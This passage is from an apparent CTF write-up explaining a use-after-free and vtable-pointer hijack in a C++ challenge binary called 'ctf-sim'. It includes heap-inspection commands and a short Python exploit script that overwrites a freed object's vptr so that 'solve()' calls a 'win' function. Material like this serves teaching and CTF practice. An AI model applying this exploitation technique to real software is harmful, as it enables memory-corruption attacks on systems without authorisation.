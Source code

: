 Let's check our heap.
```sh
^C
heap chunks
```

![](/img/posts/misc/ctf/ctf-sim/ctf-sim-7-heap-after-input-3.jpg){.w-100}
{.center}

Sweet! We've overwritten the first 8 bytes of the chunk with our payload. Effectively, we've assigned a custom vptr to the `forensics` object.

"But bruh I thought our `forensics` object was deallocated!"

Well yes... but actually no... Objects in C/C++ are merely represented in memory as a sequence of bytes. You can interpret a sequence of bytes as any type. That's why casting across types is a thing in C/C++—albeit potentially dangerous. (In C, you'd use the usual cast `(type*)&obj`. In C++, you'd use `reinterpret_cast<type*>(&obj)`.)

Now when we call `solveChallenge`, the line `downloaded[index]->solve()` will treat our chunk as a `challenge*`. It was originally *supposed* to be a `char*`, since we submitted a writeup. But since types don't matter in the assembly/memory level, the chunk is now a `challenge*` for all intents and purposes.

Since the chunk is treated as a `challenge*`, the assembly will try to double-deref the vptr... which is our payload from submitting the writeup.

Boom! Exploit.

If we continue running the program, a SIGSEGV occurs since it tries to dereference `0x4444434342424141` (which is `"AABBCCDD"`, but packed to 64 bits).

![](/img/posts/misc/ctf/ctf-sim/ctf-sim-9-sigsev.jpg){.w-100}
{.center}

Later on, we'll use `win_addr` instead of `"AABBCCDD"` for our payload; so that when the `solve()` virtual function does its magic, it will call `win()` instead.

#### Altogether
Combining our knowledge of vtables/vpointers with a little bit of heap knowledge, we come up with the following exploit:

```py 
# downloaded[0] = new forensics;   (vptr points to forensic's vtable.)
download_chal(1, 0)

# delete downloaded[0];    (chunk is moved to tcache/fast bin. downloaded[0] itself is unchanged!)
solve_chal(0)

# Chunk is allocated-- reusing the chunk previously deallocated.
# Overwrite vptr of downloaded[0] with &(&win).
submit_writeup(p64(elf.sym['win_addr']), 0x10)

# downloaded[0]->solve() triggers double dereference (due to virtual function resolution) and calls win()!
solve_chal(0)
```


[doublefree]: https://heap-exploitation.dhavalkapil.com/attacks/double_free
[vtable-so]: https://stackoverflow.com/a/99341/10239789
[vtable-pablo]: https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/
[gb-vtable-cpp]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1DIApACYAQuYukl9ZATwDKjdAGFUtAK4sGIM6SuADJ4DJgAcj4ARpjE/gDspAAOqAqETgwe3r7%2ByanpAiFhkSwxcWaJdpgOGUIETMQEWT5%2BAVU1AnUNBEUR0bEJtvWNzTltwz2hfaUDFQCUtqhexMjsHOYAzKHI3lgA1CYbbk4KBMSYrIfYJhoAgje3O0wKCnvKDYwEB/FWd0leUVoeGQIAee3Be1CXySH0EAH10Ex6odfrcIW9YQQIFC9oj6nM9iA9jDzvC8UwTD9yZSACLfKzxGkPMEQgBueEaXjEe1ZqDw6D2/FQ2MEe1UBMpFj2p3QIBQSy%2BhzcSoOZjMJM%2Bewg5jMByOKo1ZKRTD1yqOqrMBKFRJ1ppVqjt5plctctBR3yZd3R7M53N5/L2UQaIq%2B4vp0oIsvlXkV%2BvNOsNX21asdbmJmIRxtTFoJQbiFuzDqVKudIFd7tpzMZKIeTxeexpsTwrMwAqJ/0BwIxpMVPweHaBIJZ4JxWGIzdbmeRG1R6Mb45b6BDuONpEhovJlsJ3c%2BkupjLXY4n6CnFKpxrMtPplbuw55HIIXNoPL5Arzy7DkojUbQMezOqPRctVtYtzUTU9/zVNcQLjNNAMnclIK3PMbRTUC0yLWDvxdBh0DdGcPSrJkZ2ZO4cRYJhQggCU%2By9CF3h7YlJS4SsSLo8EkgAOiFCBLXdAB6fid0EOUhTvLj3w2OYBKEhjPjlPNSLRCF52PXFJQAVjXAA2VjZwhdBuNQYV4mkgjBOEghROMu9DPfAAOMypQs1TFwUhoiI4BZaE4DTeD8DgtFIVBOGVSxrGlJYVkwVUNh4UgrMCryFgAaxADSNH0ThJH8zReBCjheAUEBMsSrQFjgWAYEQeUWCSOhYnISg0Dqhq4mALgzC4Pg6AIWJiogKI8tIKJQgaABPTh4pathBAAeQYWhJqS0gsAooxxBW/BzhqFtipWzBVGqGM1iCqFMB8lagSiYgJo8LBhrOPAWCmry%2BAMYAFAANTwTAAHc5qSRhXpkQQRDEdgpFB%2BQlDUYbdG6gwjBQaxrH0PAomKyAFlQJJHAEfaiou6p8b8CBXFGPxuuCKYSjKPQUjSUnKYZ/JSd6OmBm69pSa6EZPBaPQedqCYOf6OJuYmFnJe6MWZglhYFCi1Y9DOTA1h4bzfNylaCtUeztIAWm0yQ9mAZBkD2TrOK4LUwqsSw11wQgSFi7q9g8Vr6GIN25l4MrktINKMqyjgctIF6Q4CoKCqKkqEryirqogJAFX%2BAgmogFr6u98JWDWfWjZNs2Latswbd4VsXfHWVuv4MHRHEKH65hlR1BWhHSD%2B26klerWOD80ho/yzg5pjdO9lQKgxQN43TfNy3rdtiBPZz2Jff9xOFgQC4x0ofvw8jzLh%2BCzg49Kreg/SzLLo2HWY7PhOkrmfuzHvkfCqf8qFhbYg0mcSQQA
[gb-vtable-c]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1AB9U8lJL6yAngGVG6AMKpaAVxYMQAJgDMpBwAyeAyYAHLuAEaYxN4AHKQADqgKhLYMzm4e3n5JKTYCQSHhLFExXvGWmNZpQgRMxAQZ7p6%2BFphW%2BQy19QSFYZHRcRZ1DU1ZrQojvcH9JYPlAJQWqK7EyOwcAKS%2BwchuWADUmz6Ok/ioAHQIx9ibGgCCd/cEAJ4JmFhUBwBuqHjoBwgACoqK4GMgEgRiMYCAsIAtjgAhA4AehRBwAKm9MAcxHgmAoDvxiESwdUBAcksECNEFBcnk9Xu9PgdJsRXNYjgB2RFPA780ngyHQghAn51CL0JF8gXUyn1RgEYzoJh1aUPTZcgAiB2UCsE6seDyZH0wXzZHII3N5DwFgohUJhYu%2BEqlPht9ztcoS%2BqVKrV7tR6IAkgwENFCB8icRUCx5cRFfTbbLBAcsMQ8N8PsrVUxDZqdVqI1n0PmHmiDtgGO5oqq0gdUF9vngGq4xPbOnSnox3NaDgA1ABiclCjgxwYA8qFjIOJxPSAPh6Px1PjIj7gAlblasv3CvOcEJmkHPAsBL0NiCOsCLsPX7/eOK0z8VAQPUJwRihILuWqBZ9hIM0EKgIG2LwfQ/K1QK8ABWdB/xfEAjlg0sYMcBgwIXBIAFobggp9/SYBc/yRbcnnvAF8MEUwInqN9fS/H9Uz/ACgIIECwKoqDtjg/9aJiZC4M2NCMK8LwsNwnxsC4nM6mIhFAwLci/gBdNM2zYx%2BIgIsMxLMV0CYq0WM1ZFAOpDixLUktAR4gzBPgg5%2BKQ2zhPQzC00k6TfVkoiPJuKzs0I%2BTSKUjVy3RfsWwINtaBPM8L0Va8GEJCAE3wBNrAWJN7goolUFfd9FUYk9mP/EzKU8l0mElTBhMRIcRzHSdp1nCdhK1KAKKBBZvwOEjFO1ZSHy0wrP0pQy%2BrKnkKpuKqarqhrl2atdN3azqVO63r%2BuRUKjT3dE5voNMzWCVIb2y0EhUdK0ZOMQ7apg3kYJ1Y4Xp5GV%2BVul9SA%2Bx9qM0%2Bofo1Qb3QZB5LodEVjt0jT7rq9qjh8N6PTtL78qBz0BQC9AaMBhkQY9J45RYJhgggCippRgVRpuxHkdu%2B6Fy4JTQeTfkX2ggA2XqvAU5EKzR1Bfq07ZuYXHw%2BaDP6lQB4hst%2BnT1NUunrWx0xGYOGCF05lmqfZ/KoBp7rRbsrlJYF7zjBfYW6PoyDja8Tm7Nic30TV2X5e1DglloTgYN4TwOC0UhUE4RxWRWNYcW2HweFIAhNG9pYAGsQBgjR9E4SQA8TkPOF4BQQAzhOg%2B90g4FgGBEBQWMEjoaJyEoNAz3rmJkGALgvC4Pg6BpYhC4gCJc4iYJ6heTg4%2Bby8CAnBhaHH0vSCwEmjHERf0qqGws0LxfMFUKpXBpXPqXaXPaDwCJiDH5wsFzqFTwnsuqAMYAFEizAAHcJ3eQO4/4QQRBiHYFIGQghFAqHUIvXQ3cDBGBAKYYw5hz4RELpAJYqBIRpB3gXdom80j2AYE4FwzQ9CBBmMUUoehchnXSMQrI3dqGdD6BQwY3dKjki6FMMYng2G4I4d0BozCBgxDYVwuhPDhg9CEXMERSwFCR3WHoKEmANg8B9n7HOi9Q4cFULETm2FOaSAOMAZAyADidwuFwQEjgFy4EICQZCscFzOBbvQEkMcuALF4CXLQCwU5pwzr7Dg2dSAsACaQQOwdtEFyLvHROSwK7VxWAQBIh9G4QGbnXNxoRWAbF0fowxxjTHmK8JY3gHx7EZnQHof%2BwhRDiBAbU8Bahc7QNIB/K%2BCRH7qI4P7CJudtETkPqkq0jY%2Bp6IMUYkxZiLFWIgC4rJ0RHGeO8fEpY4YmDpkoD0kJYT079K0fnCwsSfFJ1IKnfZQSfCaKiUc05fjM4cC8Dc3g0S4mlweVmfu%2BDJBAA%3D